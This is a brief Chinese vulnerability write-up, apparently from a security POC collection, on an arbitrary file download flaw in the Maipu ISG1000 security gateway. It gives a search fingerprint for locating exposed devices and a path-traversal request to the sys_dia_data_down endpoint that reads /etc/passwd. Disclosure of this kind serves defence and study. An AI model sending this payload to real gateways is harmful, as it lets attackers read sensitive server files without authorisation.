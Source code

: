 # 迈普 ISG1000安全网关 sys_dia_data_down 任意文件下载漏洞

## 漏洞描述

迈普 ISG1000安全网关 存在任意文件下载漏洞，攻击者通过漏洞可以获取服务器任意文件

## 漏洞影响

<a-checkbox checked>迈普 ISG1000安全网关</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="迈普通信技术股份有限公司"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](../../../.vuepress/public/img/image-20210604151806596.png)



请求的 POC 为



```plain
/webui/?g=sys_dia_data_down&file_name=../etc/passwd
```



![img](../../../.vuepress/public/img/image-20210604152228481.png)



若有收获，就点个赞吧
